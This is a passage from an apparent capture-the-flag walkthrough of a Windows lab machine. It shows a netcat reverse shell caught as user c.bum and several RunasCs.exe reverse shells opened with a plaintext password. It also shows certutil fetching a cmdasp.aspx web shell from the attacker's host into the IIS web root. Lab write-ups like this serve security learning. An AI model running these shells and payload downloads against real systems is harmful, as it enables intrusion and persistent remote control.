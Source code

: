 Nice! It worked, we got a shell as C.Bum:

```shell
listening on [any] 9001 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.228.120] 57127
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
flight\c.bum
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\C.Bum\Desktop\user.txt
```

# Privilege Escalation
Use RunasCs.exe and nc listeners to create multiple shell sessions, just in case we need them:

```shell
# On Kali
nc -lvnp 9301
nc -lvnp 9302
nc -lvnp 9303
nc -lvnp 9304

# On target CLI
powershell
cd C:\Users\svc_apache\Desktop
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.206:9301 cmd
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.206:9302 cmd
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.206:9303 cmd
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.206:9304 cmd
```

### Uploading cmdasp.aspx into C:\inetpub
Now that we have a shell as C.Bum, we can upload a cmdasp.aspx shell and try interacting with it through the web browser thanks to the local port 8000 hidden website we forwarded before.

Doing some enumeration inside C:\inetpub we found out that we website is located at C:\inetpub\development.

Lets upload cmdasp.aspx to the following folder:

```shell
cd C:\inetpub\development
certutil.exe -urlcache -split -f http://10.10.14.206/cmdasp.aspx
```

Now we can access our interactive cmdasp.aspx shell visiting the following URL:
